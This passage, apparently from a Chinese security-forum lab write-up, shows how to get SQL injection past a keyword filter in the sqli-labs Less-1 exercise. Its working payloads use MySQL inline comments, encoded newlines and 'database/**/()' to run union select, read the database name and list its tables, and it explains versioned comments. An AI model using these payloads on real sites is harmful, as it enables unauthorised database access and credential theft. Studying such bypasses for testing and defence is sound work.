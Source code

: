 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-0ac6b41cc240a3acefff41b730a78ffaced9e863.png)  
得出union 和 select不能联用

select绕过

```php
%23进行#注释 
%0a换行符
/*!*/ 内联注释
%0a 换行
```

```php
http://10.0.22.140/SQLL/Less-1/?id=-1' union /*!%23%0aselect 1,2,3*/ --+
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-db91ccf30a13f10d8877099b6d8219ad905f63df.png)

### 测试database()

直接使用database()不行，那么在database()中间使用空格编码是不是就可以绕过了  
在这里经过多次测试之后发现，`database()`可以使用`database/**/()`进行绕过

```php
http://10.0.22.140/SQLL/Less-1/?id=-1' union /*!%23%0aselect 1,2,database/**/()*/ --+
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-23bf313b9d67b1a4f0ae78bdd0f7bb9212266646.png)  
此时已经获得了数据库名称为`security`

继续操作来进行下一步，直到能够获取所有的关键信息

现在已知数据库之后，开始获取数据库中的表信息：  
对第三个位置来获取表信息：

```php
http://10.0.22.140/SQLL/Less-1/?id=-1' union /*!%23%0aselect 1,2,group_concat(table_name) /*!%23/*%0afrom*/ information_schema.tables where table_schema='security'--+
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-3ded25402032b20d7f2eeda7c4f928086a824c9c.png)

#### 内联注释知识点

```php
-   /*!select*/:  相当于没有注释

-   /*!12345select*/: 当12345小于当前mysql版本号的时候，注释不生效，当大于版本号的时候注释生效。

-   /*![]*/: []中括号中的数字若填写则必须是5位
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-003c1c4b3231d43746111dcaa41211327ddc5871.png)

通过username password  
查看内容
